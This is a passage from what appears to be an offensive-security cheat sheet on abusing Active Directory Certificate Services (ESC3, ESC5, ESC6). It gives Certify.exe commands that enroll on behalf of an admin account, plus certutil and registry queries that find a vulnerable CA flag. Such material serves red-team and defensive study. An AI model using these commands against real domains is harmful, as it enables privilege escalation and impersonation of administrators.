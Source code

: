 Request a certificate specifying the `/altname` as a domain admin like in **ESC1**.



### Agent Certificate + Enroll on Behalf of Another User (ESC3)

Conditions:

1. A template allows a low-privileged user to use an enrollment agent certificate.
2. Another template allows a low privileged user to use the enrollment agent certificate to request a certificate on behalf of another user, and the template defines an EKU that allows for domain authentication.

1\. Request an enrollment agent certificate:

```
Cmd > .\Certify.exe request /ca:CA01.megacorp.local\CorpCA /template:Vuln-EnrollAgentTemplate
```

2\. Request a certificate on behalf of another user based on a template that allows domain authentication:

```
Cmd > .\Certify.exe request /ca:CA01.megacorp.local\CorpCA /template:User /onbehalfon:MEGACORP\ITAdmin /enrollcert:enrollmentAgentCert.pfx /enrollcertpw:Passw0rd!
```



### Vulnerable PKI Object ACEs (ESC5)

- [https://posts.specterops.io/from-da-to-ea-with-esc5-f9f045aa105c](https://posts.specterops.io/from-da-to-ea-with-esc5-f9f045aa105c)



### EDITF_ATTRIBUTESUBJECTALTNAME2 (ESC6)

> If this flag is set on the CA, any request (including when the subject is built from Active Directory) can have user defined values in the subject alternative name.

This means that an adversary can enroll in **any** template configured for domain authentication that also allows unprivileged users to enroll (e. g., the default `User` template) and obtain a certificate that allows to authenticate as a domain admin or any other active user/machine.

Discover with certutil:

```
Cmd > certutil.exe -config "CA01.megacorp.local\CorpCA" -getreg "policy\EditFlags"
Or
Cmd > reg.exe query \\CA01.megacorp.local\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\CertSvc\Configuration\CorpCA\PolicyModules\CertificateAuthority_MicrosoftDefault.Policy\ /v EditFlags
```

Discover with Certify:

```
Cmd > .\Certify.exe find
```
